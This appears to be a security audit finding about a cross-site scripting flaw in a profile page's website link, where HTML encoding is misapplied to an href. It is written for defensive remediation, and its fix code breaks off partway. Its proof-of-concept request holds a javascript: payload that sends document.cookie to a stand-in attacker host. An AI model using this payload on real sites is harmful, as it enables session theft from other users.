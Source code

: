 
## SECVULN-010: XSS via Context Confusion

### Metadata
- **Severity**: P2 (Medium)
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **CVSS 3.1**: 6.1 (Medium) - CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N
- **Component**: `/app/routes/profile.js` (Line 28)
- **Fix Priority**: Medium (Within 14 days)

### Description
The application contains a Cross-Site Scripting (XSS) vulnerability due to context confusion in the profile functionality. The website URL is HTML-encoded but then used in an href attribute context, which allows JavaScript URLs to be injected and executed when clicked.

### Vulnerable Code
```javascript
// From /app/routes/profile.js (Line 28)
doc.website = ESAPI.encoder().encodeForHTML(doc.website);

// Later in the template
<a href="{{user.website}}" target="_blank">{{user.website}}</a>
```

### Attack Vector
An authenticated user can update their profile with a JavaScript URL (e.g., `javascript:alert(document.cookie)`) in the website field. HTML encoding doesn't affect JavaScript URLs since they don't contain HTML-special characters. When another user clicks the link, the JavaScript executes in their browser context.

### Technical Impact
- **Confidentiality**: Low impact - Can steal cookies and access sensitive page content if the link is clicked
- **Integrity**: Low impact - Can modify page content or perform actions as the victim
- **Availability**: No significant impact on availability

### Proof of Concept
```http
POST /profile HTTP/1.1
Host: nodegoat.example.com
Content-Type: application/x-www-form-urlencoded
Cookie: connect.sid=<valid-session-cookie>

website=javascript:fetch('https://attacker.com/steal?c='+encodeURIComponent(document.cookie))&firstName=John&lastName=Doe
```

### Remediation

1. Validate URL protocol and use proper URL encoding:
```javascript
// Replace:
doc.website = ESAPI.encoder().encodeForHTML(doc.website);

// With:
function validateAndEncodeUrl(url) {
    // Check if URL is empty or undefined
    if (!url) return '';
    
    // Ensure URL has a protocol, default to http:// if missing
    if (!url.match(/^[a-zA-Z]+:\/\//)) {
        url = 'http://' + url;
    }
```